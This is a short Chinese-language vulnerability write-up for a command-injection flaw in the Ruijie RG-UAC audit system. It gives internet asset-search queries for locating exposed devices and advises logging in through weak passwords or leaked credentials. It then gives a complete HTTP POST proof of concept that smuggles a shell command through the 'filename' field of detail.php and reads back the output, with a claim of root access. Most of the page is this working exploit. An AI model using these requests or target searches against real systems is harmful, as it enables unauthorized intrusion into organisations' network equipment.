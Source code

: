 # 锐捷RG-UAC统一上网行为管理审计系统detail后台命令执行漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在命令执行漏洞,可以通过漏洞获取root权限 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/gF4XDP2ta0uNLHZK/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-711674.png)

# 四、漏洞复现
使用弱口令/敏感信息泄露漏洞登录系统后台

![1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5.png](./img/gF4XDP2ta0uNLHZK/1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5-751856.png)

获取Cookie后使用下面poc

```plain
POST /view/bugSolve/viewData/detail.php HTTP/1.1
Host: 
Cookie: PHPSESSID=ae63a240e1fdfb5614107040d19120f3
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 20

filename=`ls+>1.txt`
```

![1714988517706-aae838cd-fdf4-4f18-a789-de04ff09a1fd.png](./img/gF4XDP2ta0uNLHZK/1714988517706-aae838cd-fdf4-4f18-a789-de04ff09a1fd-777574.png)

```plain
/view/bugSolve/viewData/1.txt
```

![1714988508026-11d47db5-e476-435c-97fd-a8465cb23151.png](./img/gF4XDP2ta0uNLHZK/1714988508026-11d47db5-e476-435c-97fd-a8465cb23151-830434.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kvrauhs29vtg9mgs>